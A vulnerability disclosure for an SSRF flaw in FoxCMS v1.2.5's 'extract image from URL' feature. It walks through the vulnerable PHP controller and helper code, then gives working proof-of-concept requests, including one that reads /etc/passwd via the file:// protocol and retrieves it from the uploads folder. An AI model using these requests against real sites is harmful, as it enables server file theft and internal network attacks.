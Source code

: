 ### FoxCMS v1.2.5 SSRF Vulnerability

The latest version of FoxCMS (v1.2.5) has a SSRF vulnerability in the remote image download feature. This vulnerability allows attackers to use the `file` pseudo-protocol to read internal network and arbitrary server files. Additionally, attackers can scan local and internal ports, enabling them to attack local and internal services.

### Debugging and Analysis

The vulnerability is in the controller file `app\admin\controller\PicManager.php`, which calls the `getImg` method:
```php
elseif ($type == "extract") {
    $groupId = 0;
    $url = $param["extractUrl"];
    $result = $this->getImg($url);
    if ($result["code"] == 0) {
        return $result;
    }
    $result = [
        "total" => 0,
        "currentPage" => 0,
        "pageSize" => 0,
        "imgList" => 0,
        "groupId" => $groupId,
        "groupList" => $groupList,
        "type" => $type,
        "handle" => $handle,
        "startDate" => $startDate,
        "endDate" => $endDate,
        "extractedUrl" => $result["file"],
        "id" => $result["id"]
    ];
```

The `getImg` function calls the `download` method and then the `upload` method:
```php
private function getImg($url = "", $filename = "")
{
    $imageUtil = new ImageUtil();
    $fileName = $imageUtil->download($url, $filename); // Full local file path
    if (empty($fileName)) {
        return ['code' => 0, 'msg' => "Failed to fetch file"];
    }
    $file = new File($fileName);
    $result = $imageUtil->upload($file);
    if ($result['code'] == 1) {
        unlink($fileName);
        return $result;
    } else {
        return ['code' => 0, 'msg' => "Upload failed"];
    }
}
```
In the `download` method, the `url` is completely controllable and calls the `get_url_content` method:
```php
public function download($url = "", $filename = "", $path = "")
{
    $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
    if (!empty($path)) {
        $filePath = $path;
    }
    if (!is_dir($filePath)) {
        tp_mkdir($filePath);
    }
    if (empty($filename)) {
        // Upload to local server
        $filename = basename($url);
    }
    $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
    $content = get_url_content($url);
    file_put_contents($filename, $content);
    return $filename;
}
```
The filename in the `download` method is derived from the URL request, and there is no filtering, so a PHP file can be downloaded and written directly using `file_put_contents`. The default save path is `uploads/date("Ymd")/`.

The `get_url_content` method directly calls cURL to request the URL, which introduces an SSRF vulnerability:
```php
function get_url_content($url)
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $result = curl_exec($ch);
    return $result;
}
```

However, when attempting to upload, there is a WAF check for file extensions. If the extension is not in the whitelist, the system will return `code=0`, bypassing the `unlink` deletion.

![](./public/2-1.png)

```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record file in the database
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { // Check if method exists
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
}
```

### SSRF Attack

We start a local web service to simulate an internal network:
```r
php -S 127.0.0.1:8999
```

Then, place a `2.php` file that calls `calc`:
```php
<?php
system('calc');
```

In the "Company Profile" section, add an image -> choose "Extract Image from URL". Construct the POC:
```r
http://127.0.0.1:8999/2.php
```
![](./public/2-2.png)


We can see the internal web service received the request, and the `2.php` was executed, opening the calculator: successful SSRF attack.
![](./public/2-3.png)


This vulnerability also causes the SSRF to fetch file contents and write them into the `uploads/date("Ymd")/` directory. We can use the `file` pseudo-protocol to read internal and system files.

In the "Company Profile" section, add an image -> choose "Extract Image from URL". We capture the request and construct a POC for SSRF to read files:
```r
handle=get&type=extract&extractUrl=file:///etc/passwd&isStamped=0&event=change
```
![](./public/2-4.png)


Then, we check the upload path and successfully retrieve the file contents:
```r
/uploads/20250125/passwd
```
![](./public/2-5.png)
